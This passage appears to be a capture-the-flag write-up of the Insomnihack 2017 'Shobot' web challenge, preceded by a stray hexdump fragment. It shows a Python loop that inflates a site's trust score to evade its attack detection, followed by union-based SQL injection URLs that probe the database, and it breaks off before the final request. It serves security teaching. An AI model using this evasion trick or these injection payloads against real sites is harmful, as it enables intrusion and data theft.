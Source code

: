            0x00e0:  545f 4e4f 545f 5945 545f 415f 5052 4f56  T_NOT_YET_A_PROV
            0x00f0:  454e 5f53 4b49 4c4c 4544 5f4f 4e45 7d20  EN_SKILLED_ONE}.
            0x0100:  2020 2020 7e7e 0a7e 7e7e 7e7e 7e7e 7e7e  ....~~.~~~~~~~~~
            0x0110:  7e7e 7e7e 7e7e 7e7e 7e7e 7e7e 7e7e 7e7e  ~~~~~~~~~~~~~~~~
            0x0120:  7e7e 7e7e 7e7e 7e7e 7e7e 7e7e 7e7e 7e7e  ~~~~~~~~~~~~~~~~
            0x0130:  7e7e 7e7e 7e7e 7e7e 7e7e 7e7e 7e7e 7e7e  ~~~~~~~~~~~~~~~~
            0x0140:  7e7e 7e7e 7e7e 7e7e 7e7e 7e7e 0a0a       ~~~~~~~~~~~~..

## Shobot

>It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password, and blocked the order system on Shobot.
>
>Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it?
>
>Running on: shobot.teaser.insomnihack.ch

The website is simple merchant website with 3 items.

![shobot website](/media/2017.01/shobot.png)

There also is a parameter `TRUST_ACTION` with a sort of score regarding the
actions on the site. With a elevated score it is possible to test some attack
like LFI or SQLi. So in order to build our trust we use the following python
script:

    ::python
    import requests
    import time

    url ='http://shobot.teaser.insomnihack.ch'
    req1 = '/?page=article&artid=1&addToCart'
    req2 = '/?page=cart&reset'
    cookie= dict(PHPSESSID= 'f5hnhjd5qbiiebu9v057fe6m51')

    while True:
        r = requests.get(url+req1, cookies=cookie)
        r = requests.get(url+req2, cookies=cookie)

The we can test slowly each parameter.

There seems to be an injection on the parameter id of the article page.

    http://shobot.teaser.insomnihack.ch/?page=article&artid=4%27%20%20union%20select%201,2,3,4,5%20%23

![shobot simple union sqli](/media/2017.01/sqli1.png)

We search the back end database with the versions requests:

    http://shobot.teaser.insomnihack.ch/?page=article&artid=4%27%20%20union%20select%201,@@version,3,4,5%20%23

So it is operated by a MySQL database. Then we need to fine the right table.

The finale request is:
